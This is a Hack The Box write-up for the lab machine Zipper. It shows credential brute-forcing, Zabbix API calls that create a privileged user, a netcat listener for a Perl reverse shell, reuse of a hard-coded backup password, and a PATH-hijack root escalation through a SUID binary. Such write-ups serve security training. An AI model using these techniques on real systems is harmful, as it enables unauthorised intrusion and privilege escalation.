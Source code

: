 # Zipper 

This is a write up on the HTB machine, Zipper. I have seen a few methods people used to obtain the initial user but this is the method I used.


## Enumeration
The IP given is `10.10.10.108`

We start by doing a nmap scan on the IP address:
 ```
[root:~]# nmap -sV -p- -v 10.10.10.108     
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
10050/tcp open  tcpwrapped syn-ack ttl 63
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
 
 From here, the two major ports to enumerate is `10050` and `80`. Starting at `10050`, it seems that nmap's service enumeration did not find much information on the port.
 By doing a quick Google search, we are able to get a general idea of what the port is used for which is `Zabbix-Agent`:
 https://www.speedguide.net/port.php?port=10050
 
 Next, we look at the HTTP service. On the default page of the web server, it is a default Apache2 Ubuntu page.
 Trying to brute force the directory using default Dirb wordlist and seclist's `big.txt` resulted in nothing significant. By using     the information we have gotten on `10050`, the directory `zabbix` was attempted and found a login page: 
 
 ![Image](https://i.imgur.com/G7IOBIR.png)

 Default credentials were attempted on the login pannel, however, none of them were valid. 
 We are able to login as a "guest" user. Using CewL, a wordlist was created.
 ```
 [root:~]# cewl http://10.10.10.108/zabbix/zabbix.php\?action\=dashboard.view -H cookie:PHPSESSID=8b2a9bpfd5bvf5jk9s8lqfq9rl -m 5 -d 4 > zabbixwordlist.txt
```
To explain this syntax, we are able to pass a cookie in the header field so CewL scrapes words as the user "guest". The cookie was found by intercepting using Burp when logging in via "guest":
![Image](https://i.gyazo.com/0fcc5ac903ffefe902e1a88f45926c1b.png)

In a more effiecnt approach, we are able to make a wordlist ourselves:
```
zipper
Zipper
admin
Admin
Zabbix
zabbix
Zapper
zapper
password
Password
Administrator
administrator
root
Root
toor
Toor
```

 ## Exploitation
Using a brute forcing application, we find that the username and password credentials are `zapper:zapper` or `Zapper:Zapper`.
We try to login to the GUI pannel, however, we get a `GUI access disabled`.

From here, we do some research on Zabbix application itself. We see that in the documentation, Zabbix uses an API.
Zabbix API documentation: https://www.zabbix.com/documentation/3.0/manual/api

We can try authenticating and accessing the application using the account using the API.
Start by getting the authentication token:
```
curl -d '{
    "jsonrpc": "2.0",
    "method": "user.login",
    "params": {
        "user": "zapper",
        "password": "zapper"
    },
    "id": 1,
    "auth": null
}' -H "Content-Type: application/json" -X POST http://10.10.10.108/zabbix/api_jsonrpc.php 

Result: {"jsonrpc":"2.0","result":"36a3bf6f1edbd8275e3b5667b64fb128","id":1}
```

From here we would want to try to make a higher privledge account, but first we need to enumerate the user groups:
```
[root:~]# curl -d '{
    "jsonrpc": "2.0",
    "method": "usergroup.get",
    "params": {
        "output": "extend",
        "status": 0
    },
    "auth": "36a3bf6f1edbd8275e3b5667b64fb128",
    "id": 1
 }' -H "Content-Type: application/json" -X POST http://10.10.10.108/zabbix/api_jsonrpc.php 

Result: {"jsonrpc":"2.0","result":[{"usrgrpid":"7","name":"Zabbix administrators","gui_access":"0","users_status":"0","debug_mode":"0"},{"usrgrpid":"8","name":"Guests","gui_access":"0","users_status":"0","debug_mode":"0"},{"usrgrpid":"11","name":"Enabled debug mode","gui_access":"0","users_status":"0","debug_mode":"1"},{"usrgrpid":"12","name":"No access to the frontend","gui_access":"2","users_status":"0","debug_mode":"0"}],"id":1}
```

Lets create a debugging mode account:
```
curl -d '{
    "jsonrpc": "2.0",
    "method": "user.create",
    "params": {
        "alias": "John2",
        "passwd": "Doe123",
	"type": "3",
        "usrgrps": [
            {
                "usrgrpid": "11"
            }
        ],
        "user_medias": [
            {
                "mediatypeid": "1",
                "sendto": "support@company.com",
                "active": 0,
                "severity": 63,
                "period": "1-7,00:00-24:00"
            }
        ]
    },
    "auth": "36a3bf6f1edbd8275e3b5667b64fb128",
    "id": 1
}' -H "Content-Type: application/json" -X POST http://10.10.10.108/zabbix/api_jsonrpc.php 
```
After the user is created, we are able to login via GUI. We now have access to the "Administration" tab. We are able to create scripts `Administration -> Scripts` and execute them in the Zabbix agent. The Zabbix server is the container.
By doing some enumeration on the machine using the script function, we find that the machine has Perl installed. Using Perl, we can create a reverse shell:

![Image](https://i.gyazo.com/d372e0fb1099b2875399b6ae1e6ac527.png)

We set up a listener on our attacking machine:
`[root:~]# nc -nvlp 1234`

Then we login as a "guest" and execute the script:
![Image](https://i.gyazo.com/fb40cffa499fb2a4adc1d6927d0a0f88.png)

#Privledge Escalation (User)
We are a very low privledged user, authenticated as the Zabbix service:
```
$ whoami
zabbix
```

Searching around the machine, we find a backup script:
```
$ cd /home/zapper/utils
$ ls
backup.sh
zabbix-service
$ cat backup.sh 
#!/bin/bash
#
# Quick script to backup all utilities in this folder to /backups
#
/usr/bin/7z a /backups/zapper_backup-$(/bin/date +%F).7z -pZippityDoDah /home/zapper/utils/* &>/dev/null
```

The zip file is using a password `ZippityDoDah`.
We can try to authenticate to a user using the password we have found, but first we need to spawn a tty shell as we are getting `su: must be run from a terminal` by using the command `su`. By enumerating the machine more, we see that python3 is available:
`python3 -c 'import pty; pty.spawn("/bin/sh")'`

Viewing the `/etc/passwd` shows a user `zapper` and we are able to authenticate to the user by using the password we have found `ZippityDoDah`:
![Image](https://i.gyazo.com/aed65e3fb0ecaa12d31394138356afbe.png)

#Privledge Escalation (Root)
Now we have user, it is time to move on to Root. Doing basic enumeration on the machine, such as using a privledge escalation script (https://www.rebootuser.com/?p=1758), we see something that is unsual with SUID files:
```
[-] SUID files:
-rwsr-sr-x 1 root root 7556 Sep  8 13:05 /home/zapper/utils/zabbix-service
-rwsr-xr-x 1 root root 161520 Nov 30  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 26012 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 30112 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 63988 Mar  9  2017 /bin/ping
-rwsr-xr-x 1 root root 43240 Jan 25  2018 /bin/su
-rwsr-xr-x 1 root root 42400 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 62024 Jan 25  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 43684 Jan 25  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 78788 Jan 25  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 172120 Jan 17  2018 /usr/bin/sudo
-rwsr-xr-x 1 root root 39016 Jan 25  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 78340 Jan 25  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 13960 Mar  9  2017 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 525884 Feb  9  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 46436 Nov 15  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 5480 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```

In the `/home/zapper/utils` directory before, we see the `zabbix-service` file. So how can we elevate privledges with this file?
Lets figure out what this file does...

By running the file we see that we are able to 'stop' or 'start' the Zabbix service. From this we can assume that it uses some sort of system binary. By cat the file, we find that the file is using `systemctl`:
`... startsystemctl daemon-reload && systemctl start zabbix-agentstopsystemctl ... `

We can escalate to Root by changing the path variable and creating a file named `systemctl` which spawns a shell:
```
cd /tmp
echo "/bin/bash" > systemctl
chmod 777 ps
export PATH=/tmp:$PATH
```

Then we run the `zabbix-service` and `start` the service to trigger `systemctl`:
```cd /home/zapper/utils
./zabbix-service
start or stop?: start
```

And we are root:

![Image](https://i.gyazo.com/ba7592ed784591b356c81ef85836560a.png)


